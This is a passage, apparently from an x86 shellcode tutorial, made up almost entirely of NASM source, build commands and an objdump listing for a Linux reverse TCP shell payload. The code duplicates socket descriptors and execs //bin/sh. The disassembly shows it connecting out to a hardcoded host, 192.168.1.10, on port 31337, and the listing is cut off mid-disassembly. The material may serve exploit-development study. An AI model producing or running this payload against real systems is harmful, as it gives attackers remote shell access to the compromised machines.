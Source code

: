 ```nasm
    jne dupfd       ; loop until 0
    ; Execve
    ; Function descriptor:
    ;   int execve(const char *fn, char *const argv[],
    ;       char *const envp[])
    ; Purpose:
    ;   to execute a program on a remote and/or compromised
    ;   system. There is no return from using execve therefore
    ;   an exit syscall is not required
    xor eax, eax    ; zero eax register
    push edx        ; push null
    push 0x68732f6e ; hs/n
    push 0x69622f2f ; ib//
    mov ebx, esp    ; ebx contains address of //bin/sh
    push edx        ; push null
    push ebx        ; push address of //bin/sh
    mov ecx, esp    ; ecx pointer to //bin/sh
    push edx        ; push null
    mov edx, esp    ; edx contains pointer to null
    mov al, 0xb     ; execve()
    int 0x80
```
Build the code:
```
$ nasm -felf32 -o reversetcpbindshell.o reversetcpbindshell.asm
$ ld -o reversetcpbindshell reversetcpbindshell.o
```
Check for nulls:
```
$ objdump -D reversetcpbindshell -M intel

reversetcpbindshell:     file format elf32-i386
Disassembly of section .text:
08048060 <_start>:
 8048060:   31 c0                   xor    eax,eax
 8048062:   31 db                   xor    ebx,ebx
 8048064:   31 c9                   xor    ecx,ecx
 8048066:   31 d2                   xor    edx,edx
 8048068:   b0 66                   mov    al,0x66
 804806a:   b3 01                   mov    bl,0x1
 804806c:   51                      push   ecx
 804806d:   6a 06                   push   0x6
 804806f:   6a 01                   push   0x1
 8048071:   6a 02                   push   0x2
 8048073:   89 e1                   mov    ecx,esp
 8048075:   cd 80                   int    0x80
 8048077:   89 c6                   mov    esi,eax
 8048079:   b0 66                   mov    al,0x66
 804807b:   31 db                   xor    ebx,ebx
 804807d:   b3 02                   mov    bl,0x2
 804807f:   68 c0 a8 01 0a          push   0xa01a8c0
 8048084:   66 68 7a 69             pushw  0x697a
 8048088:   66 53                   push   bx
 804808a:   fe c3                   inc    bl
 804808c:   89 e1                   mov    ecx,esp
 804808e:   6a 10                   push   0x10
 8048090:   51                      push   ecx
 8048091:   56                      push   esi
 8048092:   89 e1                   mov    ecx,esp
 8048094:   cd 80                   int    0x80
 8048096:   89 c3                   mov    ebx,eax
 8048098:   31 c9                   xor    ecx,ecx
 804809a:   b1 03                   mov    cl,0x3
 
```